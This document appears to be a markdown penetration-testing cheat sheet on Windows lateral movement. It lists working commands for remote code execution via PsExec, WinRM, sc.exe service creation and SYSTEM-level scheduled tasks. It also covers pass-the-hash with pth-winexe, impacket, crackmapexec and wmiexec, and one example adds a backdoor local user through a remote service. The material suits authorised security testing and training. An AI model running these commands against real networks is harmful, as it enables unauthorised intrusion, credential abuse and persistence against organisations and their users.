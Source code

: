 # Lateral Movement and Pivoting



## Table of contents

##### ➤ Windows - Spawning a process remotely
* [1. PSEXEC](#Psexec)
* [2. Remote Process Creation Using WinRM](#Remote-Process-Creation-Using-WinRM)
* [3. Remotely Creating Services Using sc](#Remotely-Creating-Services-Using-SC)
* [4. Creating Scheduled Tasks Remotely](#Creating-Scheduled-Tasks-Remotely)

##### ➤ Windows - Pass the hash
* [1. PTh - Passing the hash methods](#pth---pass-the-hash-methods)

``` ```
``` ```
## Psexec

- Ports: 445/TCP (SMB)
- Required Group Memberships: Administrators
- Part of sysinternals 

#### Commands
```
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

``` ```
``` ```
## Remote Process Creation Using WinRM

- Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Remote Management Users

#### Using winrs.exe :
```
winrs.exe -u:Administrator -p:Mystrongpassword -r:target cmd
```

#### Using Powershell directly :

###### 1. create a PSCredential object :
```
$username = 'Administrator';
$password = 'Mystrongpassword';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
````

###### 2.A. Create an interactive session using Enter-PSSession cmdlet :
```
Enter-PSSession -Computername TARGET -Credential $credential
```

###### 2.B Run only a specific command 
```
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```


``` ```
``` ```
## Remotely Creating Services Using sc

- Ports:
  -  135/TCP, 49152-65535/TCP (DCE/RPC)
  - 445/TCP (RPC over SMB Named Pipes)
  - 139/TCP (RPC over SMB Named Pipes)
- Required Group Memberships: Administrators

#### 1. create and start a service named "SERVICENAME" using the following commands:
```
sc.exe \\TARGET create SERVICENAME binPath= "net user USERNAME PASSWORD /add" start= auto
sc.exe \\TARGET start SERVICENAME
```
***Notes :*** The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output.

####  2. Stop and delete the service
```
sc.exe \\TARGET stop SERVICENAME
sc.exe \\TARGET delete SERVICENAME
```

``` ```
``` ```
## Creating Scheduled Tasks Remotely

Another Windows feature we can use is Scheduled Tasks. You can create and run one remotely with schtasks, available in any Windows installation. 

#### Create a task named MYTASK, we can use the following commands:

```
schtasks /s TARGET /RU "SYSTEM" /create /tn "MYTASK" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/2023 /st 00:00 
schtasks /s TARGET /run /TN "MYTASK" 
```

***Notes :*** We set the schedule type (/sc) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (/sd) and starting time (/st) won't matter much anyway. Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.


#### Delete the scheduled task
```
schtasks /S TARGET /TN "MYTASK" /DELETE /F
```



``` ```
``` ```
## PTH - Pass the hash methods

Article : https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/

##### ➤  PTH-winexe

Install
```
sudo apt install passing-the-hash
```

Pass the hash
```
#From the kali linux machine
pth-winexe -U 'admin%hash' //10.0.0.1 cmd.exe
pth-winexe -U 'admin%ad3b435b51404eeaad3b435b51404ee:32196B56FFE6F45E294117B91A83BF38a //10.0.0.1 cmd.exe
```

**Note:** Remember the full hash includes both the LM and NTLM hash, separated by a colon

##### ➤  PTH-smbclient
```
pth-smbclient -U ignite/adminr%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //10.0.0.1/c$
```

##### ➤  psexec.py (impacket)
```
python3 psexec.py -hashes ad3b435b51404eeaad3b435b51404ee:32196B56FFE6F45E294117B91A83BF38a admin@10.0.0.1
```

**Note:** When you received this error "[-] [Errno Connection error (10.0.0.1:445)] [Errno 113] No route to host", use wmiexec.py


##### ➤  smbclient.py (impacket)
```
python /opt/impacket/examples/smbclient.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/admin@10.0.0.1
```

##### ➤  wmiexec.py (impacket)
```
python3 wmiexec.py -hashes ad3b435b51404eeaad3b435b51404ee:32196B56FFE6F45E294117B91A83BF38a admin@10.0.0.1
```

##### ➤  Crackmapexec
```
crackmapexec smb 10.0.0.1 -u Admin -H 32196B56FFE6F45E294117B91A83BF38 -x ipconfig
```

##### ➤  wmiexec.exe
```
wmiexec.exe -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Admin@10.0.0.1
```
